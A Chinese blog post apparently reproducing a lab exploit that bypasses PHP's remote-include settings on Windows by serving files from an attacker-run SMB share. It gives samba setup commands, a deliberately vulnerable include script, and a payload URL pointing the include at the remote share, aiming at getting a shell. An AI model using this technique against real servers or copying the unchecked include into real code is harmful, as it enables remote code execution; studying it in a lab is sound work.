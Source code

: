 ## RFI 绕过 URL 包含限制 getshell ##
时间：2019/5/27

### 前言 ###
在放学的时候，瞄到这篇文章。咦，由这种操作
火速的复现了一波
文章地址：[RFI 绕过 URL 包含限制 getshell](https://paper.seebug.org/923/)

### 实验过程 ###
环境如下：
```
phpstudy
samba
```

首先要在文件包含漏洞里面实现远程包含要满足两个条件
```
allow_url_fopen=On	
allow_url_include=On
```

默认的php.ini是这样的：
```
allow_url_fopen=On	
allow_url_include=Off
```

完全不可能实现远程包含的可能，而smb的出现打破了久未的局面
首先根据文章把allow_url_fopen和allow_url_include设置为Off
```
allow_url_fopen=Off	
allow_url_include=Off
```
![](https://s2.ax1x.com/2019/05/27/VZrruD.png)

在kali上执行以下命令：
```
apt-get install samba
mkdir /var/www/html/pub

#配置smb
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
echo > /etc/samba/smb.conf
#将下面的内容放在/etc/samba/smb.conf文件中
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[ethan]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody

#启动smb
service smbd start
```
在windows里面连接smb
![](https://s2.ax1x.com/2019/05/27/VZrzKU.md.png)

rfi.php
```php
<?php
if(isset($_GET['a'])){
	$a=$_GET['a'];
	include($a);
}
?>
```

执行如下payload
```
http://192.168.1.113/demo.php?a=\\192.168.1.115\ethan\phpinfo.php
```

![](https://s2.ax1x.com/2019/05/27/VZsxJI.png)


<b>对了，Linux下测试smb绕过发现并不行</b>